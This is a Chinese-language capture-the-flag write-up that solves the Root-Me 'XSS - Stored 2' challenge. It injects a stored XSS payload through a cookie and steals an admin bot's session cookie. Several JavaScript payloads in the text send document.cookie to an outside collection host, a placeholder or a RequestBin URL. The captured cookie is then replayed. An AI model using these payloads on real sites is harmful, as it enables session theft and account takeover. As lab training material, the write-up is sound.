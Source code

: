 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)] [[解题报告](http://exp-blog.com/2019/01/22/pid-3166/)]

------

很直白告诉了告诉了我们是存储型 XSS 题型。注意题目要求：

`Steal the administrator session's cookie and go in the admin section.`

意思就是：**窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

注意到在挑战页面顶部有个 `admin` 超链，点击后 URL 多了个请求参数 `?section=admin` ， 但是页面内容无变化，猜测这就是需要使用 administrator 的 cookie 才能访问的页面。

------------


挑战页面有两个输入口，但是测试过，这两个输入框都对所有 html 标签字符做了过滤，无法注入。

仔细观察，发现提交输入后，页面会回显 3 个内容：

- 输入的 Title
- 输入的 Content
- 右上角的 Status 值（**似乎固定为 invite？其实不然！**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/01.png)

> 多刷新几次页面，不难注意到这台靶机后台有个 admin-robot 在定时读取提交的消息。

------------

打开浏览器开发者工具：

- 切到 Network 查看页面cookie ，发现 `status=invite` 是其中一个  cookie 值（另一个是当前用户的 `uid`）。
- 切到 Elements  查看提交回显的内容，发现 `invite` 是 &lt;i&gt; 标签的 class 值

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/02.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/03.png)


------------

使用 Burp Suite -> Repeater 任意修改 cookie 的 `status` 值后再发送请求，发现回显的内容中的 &lt;i&gt; 标签的 class 值也随之改变，说明**这就是 XSS 注入点**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/04.png)


------------

尝试构造 payloads ： `"><script>alert(1)</script>` （关闭 &lt;i&gt; 标签再注入 &lt;script&gt;）

通过 Burp Suite -> Repeater 提交，页面弹出警告对话框，注入成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/05.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/06.png)

------------

至此思路很明确了：通过 cookie 把包含 payloads 消息存储到后台，当 admin-robot 读取到这条消息时，就把这个机器人的 cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么构造一个这样的 payloads 即可实现 cookie 窃取：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))</script>`

其中对于 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/q9vld7q9`，则把 payloads 修改为：

`"><script>document.write(%22<img src=http://requestbin.fullcontact.com/q9vld7q9?%22.concat(document.cookie).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/07.png)

------------

提交 payloads 后，好不容易等到  admin-robot 读取了消息，但是在 HTTP 服务器查看  admin-robot 发送过来的请求却发现，cookie 只有 `status` 参数，缺失了最重要的 `uid` 参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/08.png)


------------


其实从 Burp Suite -> Repeater 可以发现， cookie 本来完整的值是这样的（`status` 和 `uid` 之间有**空格**）：

`status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==`

导致构造前面的 payloads 提交后， 因为这个空格使得 cookie 被拆解成两部分：

- 前半部分的 `status` 作为 &lt;img&gt; 标签的 `src` 属性被提交到 HTTP 服务器
- 后半部分的 `uid` 则成为 &lt;img&gt; 标签的一个独立属性

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/09.png)


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/10.png)

------------

因此，为了把 `uid` 的值也窃取，需要把 payloads 做了小改动，即把 `document.cookie` 的空格处理掉。

在这里我把空格替换成 `&` ，最终 payloads 如下：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/11.png)

------------


提交后成功从 HTTP 服务器收到 `ADMIN_COOKIE` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/12.png)

------------

但是注意不要急着完成挑战，因为这并不是密码，题目要求的是： **窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

把从 HTTP 服务器收到的 cookie 的 `&` 改回去空格，得到真正的  cookie 值：

`status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`

将其修改到 Burp Suite -> Repeater 的请求 Cookie 后访问页面：

`http://challenge01.root-me.org/web-client/ch19/?section=admin`

得到密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/13.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

